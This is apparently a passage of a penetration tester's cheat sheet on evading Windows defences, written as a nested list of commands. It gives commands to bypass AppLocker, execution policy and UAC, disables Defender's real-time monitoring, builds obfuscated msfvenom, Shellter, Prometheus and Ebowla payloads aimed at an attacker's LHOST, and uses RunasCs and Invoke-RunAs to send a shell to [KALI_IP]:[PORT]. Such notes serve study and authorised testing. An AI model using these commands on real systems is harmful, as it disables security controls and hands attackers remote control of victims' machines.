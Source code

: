            *   `Get-AppLockerPolicy -Effective | select -exp RuleCollections` 
            *   Could Also Block `exe` Files → `"This program is blocked by group policy"`
            *   [Bypasses](https://github.com/api0cradle/UltimateAppLockerByPassList)                               → Also Try World Writable Folders
        *   Constrained Language
            *   `$ExecutionContext.SessionState.LanguageMode`
            *   [Bypasses](https://sp00ks-git.github.io/posts/CLM-Bypass/)
        *   Execution Policy
            *   `powershell -noni -nop -ep bypass -w hidden -NoExit [COMMAND]` → Test B64 Also
            *   `Set-ExecutionPolicy Bypass -Scope Process`   
    *   [AV](https://book.hacktricks.xyz/windows-hardening/av-bypass)
        *   Enumeration
            *   `Get-MpComputerStatus`
            *   `wmic /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntivirusProduct Get displayName`
        *   Exclusion Bypass
            *   `reg query "HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths"`
            *   Malware in Exclusion Folder
        *   Disable AV (RCE As Admin) 
            *   `powershell Set-MpPreference -DisableIOAVProtection $true`
            *   `powershell Set-MpPreference -DisableRealTimeMonitoring $true`
        *   Malware Obfuscation
            *   MalvDev / [Killer](https://github.com/0xHossam/Killer) → Manual Bypass 
            *   Embedding
                *   Binaries → `/usr/share/windows-binaries` → `whoami.exe` / `plink.exe` /`putty.exe`
                *   `msfvenom -x [WIN_BINARY] -p [PAYLOAD] LHOST=[NIC] LPORT=[PORT] -f exe > out.exe`
            *   Shellter (32-Bit)
                *   `msfvenom -p [PAYLOAD] LHOST=[NIC] LPORT=[PORT] -e x86/shikata_ga_nai -b '\x00\x0a\x0d' -i 5 -f raw > shell.bin`
                *   `sudo shellter` → `A` Mode → `Y` Stealth Mode → `shell.bin` Custom Payload → `N` Reflective DLL
            *   Prometheus
                *   [Download](https://github.com/paranoidninja/0xdarkvortex-MalwareDevelopment/blob/master/prometheus.cpp) + Change IP & Port
                *   32/64-Bit Cross-Compile → `[i686-w64-mingw32-g++ / g++] prometheus.cpp -o prometheus.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc`
            *   [Ebowla](https://0xdf.gitlab.io/2019/02/16/htb-giddy.html)
                *   Clone Repository → Edit `genetic.config` → `output_type = GO` / `payload_type = EXE`
                *   `python ebowla.py [MALWARE.exe] genetic.config`
                *   Build → `./build_x[86/64]_go.sh output/[EBOWLA_OUTPUT].go [OUT_OBFUSCATED_MALWARE].exe`
    *   UAC
        *   Member of "Administrators" → Restricted Privileges / File Access
        *   “Administrator” User               → To SYSTEM Shell
        *   Enumeration
            *   `reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA`
            *   `reg query HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin`
        *   Bypasess
            *   `[environment]::OSVersion.Version` → [UACME](https://github.com/hfiref0x/UACME)
            *   RunAs
                *   [PS Module](https://github.com/BC-SECURITY/Empire/blob/main/empire/server/data/module_source/management/Invoke-RunAs.ps1) / [Executable](https://github.com/antonioCoco/RunasCs/releases)
                *   `.\RunasCs.exe [USER] [PASSWORD] cmd -r [KALI_IP]:[PORT]`
                *   `Invoke-RunAs -username [USER] -password "[PASSWORD]" -Cmd cmd -Remote [KALI_IP]:[PORT] -BypassUac`
            *   FodHelper
                *   [Download File](https://FodhelperUACBypass.ps1 ) → Windows 10 OS
                *   PS Session          → `FodhelperUACBypass -program "cmd.exe /c [CMD_COMMAND]"`
            *   EventViewer
                *   [Download File](https://github.com/CsEnox/EventViewer-UACBypass) → `Import-Module Invoke-EventViewer`
                *   PS Session          → `Invoke-EventViewer [PATH\TO\MALWARE.exe]`
            *   PSExec
                *   Local       → `PsExec.exe -h -s -i cmd`
                *   Remote  → `psexec.py [AUTH_STRING]`